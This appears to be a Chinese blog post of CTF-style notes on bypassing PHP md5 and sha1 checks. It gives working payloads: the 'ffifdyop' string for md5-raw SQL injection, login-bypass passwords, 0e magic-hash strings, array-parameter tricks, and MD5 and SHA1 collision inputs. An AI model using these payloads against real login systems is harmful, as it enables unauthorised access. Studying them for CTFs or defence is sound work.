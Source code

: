 # MD5绕过&amp;sha1碰撞


&gt; 参考文章：[PHP中MD5常见绕过](https://blog.csdn.net/iczfy585/article/details/106081299?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522168275177216800184126323%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&amp;request_id=168275177216800184126323&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-106081299-null-null.142%5ev86%5einsert_down28,239%5ev2%5einsert_chatgpt&amp;utm_term=php%20md5%E7%BB%95%E8%BF%87&amp;spm=1018.2226.3001.4187)

## 前置知识
**md5($string,bool)** 函数
该函数能够得到一个字符串散列值。
若第二个参数默认为false,表示该函数返回值是32个字符的十六进制数。若指定为true,则表示函数返回的是16字节的二进制格式（这样通过浏览器解析会出现乱码）。

## md5($password,true)的SQL注入问题
1. 当数字和字符串比较时，若字符串的数字部分（需要从头开始）和数字是相同的，那么则返回的是true。
```
select if(1=&#34;1a&#34;,&#34;相等&#34;,&#34;不相等&#34;) as test
```
2. 以数字开头的字符串，若开头的字符不是0，那么在做逻辑运算的时候返回的是1，也就是true。
比如万能密码：
```
select * from user where password =&#39;&#39;or&#39;1234a&#39;;
```
&#39;1234a’会被当做true对待。而任何数和true做逻辑或运算返回的值都是true。

3. 漏洞举例

漏洞：
```
select * from usera where username = &#39;admin&#39; and password = md5($pass,true)
```
解法：
若我们可找到字符串，在对该字符串进行md5后能够得到 &#39;or’加上一个非0的字符就可以绕过。
可以用到的字符串为：```ffifdyop```
它的md5结果是：```276f722736c95d99e921722cf9ed621c```
**得到16字节的二进制被解析为字符的结果是:&#39;or’6后面接乱码** 
(27是单引号的16进制编码，67是字母o的16进制…)
即SQL语句构造为：
```
select * from user where password=&#39; &#39;or&#39;6xxx&#39;
```

## 两变量值不相等，md5计算散列值后相等的绕过
### ==的绕过
1. PHP中==是判断值是否相等，若两个变量的类型不相等，则会转化为相同类型后再进行比较
PHP在处理哈希字符串的时候，它把每一个以0e开头并且后面字符均为纯数字的哈希值都解析为0。因此可以得到：
```
//在md5加密后以0E开头
QNKCDZO
240610708
s878926199a
s155964671a
```
```
//本身是0e开头，且md5后也是0e开头的字符串
0e215962017
```
```
//在sha1加密后以0E开头，并且后面均为纯数字
aaroZmOk
aaK1STfY
```
2. 例子
```
&lt;?php
    if($_GET[&#39;a&#39;] !== $_GET[&#39;b&#39;]){
        if(md5($_GET[&#39;a&#39;]) == md5($_GET[&#39;b&#39;])){
            echo &#34;flag&#34;;
        }
    }
?&gt;
```
payload：``` /?a=QNKCDZO&amp;b=240610708```

### ===的绕过
1. ===会比较类型，这个时候可以用到PHP中md5()函数无法处理**数组**（会返回NULL）来实现绕过。
2. 例子：
```
&lt;?php
    if($_GET[&#39;a&#39;] !== $_GET[&#39;b&#39;]){
        if(md5($_GET[&#39;a&#39;]) === md5($_GET[&#39;b&#39;])){
            echo &#34;flag&#34;;
        }
    }
?&gt;
```
payload： /?a[]=1&amp;b[]=2
*注：==绕过也可用此法*

3. `a=1`，`b=&#39;1&#39;`可以绕过这个

   ```
   ($this-&gt;a !== $this-&gt;b) &amp;&amp; (md5($this-&gt;a) === md5($this-&gt;b)) &amp;&amp; (sha1($this-&gt;a)=== sha1($this-&gt;b))
   ```

### MD5碰撞
例：
```
 if ((string)$_POST[&#39;a&#39;] !== (string)$_POST[&#39;b&#39;] &amp;&amp; md5($_POST[&#39;a&#39;]) === md5($_POST[&#39;b&#39;])) {
        echo `$cmd`;
    } else {
        echo (&#34;md5 is funny ~&#34;);
    }
```
这里和上面不同之处在于有一个强制类型转化，若传入数组转化后的结果都是字符串Array。这里需要用到的是MD5碰撞，也就是不同字符串但是MD5后值相同的情况。
```
//下面的任意两组字符串内容不同，但md5结果相同
$s1 = &#34;%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab&#34;
$s2 = &#34;%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%5f%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%f3%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%e9%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%13%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%a8%1b%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%39%05%39%95%ab&#34;
$s3 = &#34;%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%ed%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%a7%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%e6%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%16%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%33%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%6f%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab&#34;
```

```
// md5值都为79054025255fb1a26e4bc422aef54eb4
$s1=%D11%DD%02%C5%E6%EE%C4i%3D%9A%06%98%AF%F9%5C/%CA%B5%87%12F~%AB%40%04X%3E%B8%FB%7F%89U%AD4%06%09%F4%B3%02%83%E4%88%83%25qAZ%08Q%25%E8%F7%CD%C9%9F%D9%1D%BD%F2%807%3C%5B%D8%82%3E1V4%8F%5B%AEm%AC%D46%C9%19%C6%DDS%E2%B4%87%DA%03%FD%029c%06%D2H%CD%A0%E9%9F3B%0FW~%E8%CET%B6p%80%A8%0D%1E%C6%98%21%BC%B6%A8%83%93%96%F9e%2Bo%F7%2Ap
$s2=%D11%DD%02%C5%E6%EE%C4i%3D%9A%06%98%AF%F9%5C/%CA%B5%07%12F~%AB%40%04X%3E%B8%FB%7F%89U%AD4%06%09%F4%B3%02%83%E4%88%83%25%F1AZ%08Q%25%E8%F7%CD%C9%9F%D9%1D%BDr%807%3C%5B%D8%82%3E1V4%8F%5B%AEm%AC%D46%C9%19%C6%DDS%E24%87%DA%03%FD%029c%06%D2H%CD%A0%E9%9F3B%0FW~%E8%CET%B6p%80%28%0D%1E%C6%98%21%BC%B6%A8%83%93%96%F9e%ABo%F7%2Ap
```
```
// md5值都为008ee33a9d58b51cfeb425b0959121c9
$s1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
$s2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```
```
// md5值都为cee9a457e790cf20d4bdaa6d69f01e41
$s1=%0E0eaU%9A%A7%87%D0%0B%C6%F7%0B%BD%FE4%04%CF%03e%9EpO%854%C0%0F%FBe%9CL%87%40%CC%94/%EB-%A1%15%A3%F4%15%5C%BB%86%07Is%86em%7D%1F4%A4%20Y%D7%8FZ%8D%D1%EF
$s2=%0E0eaU%9A%A7%87%D0%0B%C6%F7%0B%BD%FE4%04%CF%03e%9EtO%854%C0%0F%FBe%9CL%87%40%CC%94/%EB-%A1%15%A3%F4%15%DC%BB%86%07Is%86em%7D%1F4%A4%20Y%D7%8FZ%8D%D1%EF
```

## 万能密码
用于登录框密码存在md5加密后存入数据的万能密码绕过登录
```
// 利用以下两个
ffifdyop
129581926211651571912466741651878684928
```
```
PS C:\Users\Administrator&gt; php -r &#34;var_dump(md5(&#39;129581926211651571912466741651878684928&#39;,true));&#34;
Command line code:1:
string(16) &#34;�T0D��o#��&#39;or&#39;8&#34;
PS C:\Users\Administrator&gt; php -r &#34;var_dump(md5(&#39;ffifdyop&#39;,true));&#34;
Command line code:1:
string(16) &#34;&#39;or&#39;6�]��!r,��b&#34;
PS C:\Users\Administrator&gt;
```

## sha1绕过
也可以通过数组绕过
```
// url
a=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
b=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```


---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-md5%E7%BB%95%E8%BF%87sha1%E7%A2%B0%E6%92%9E/  

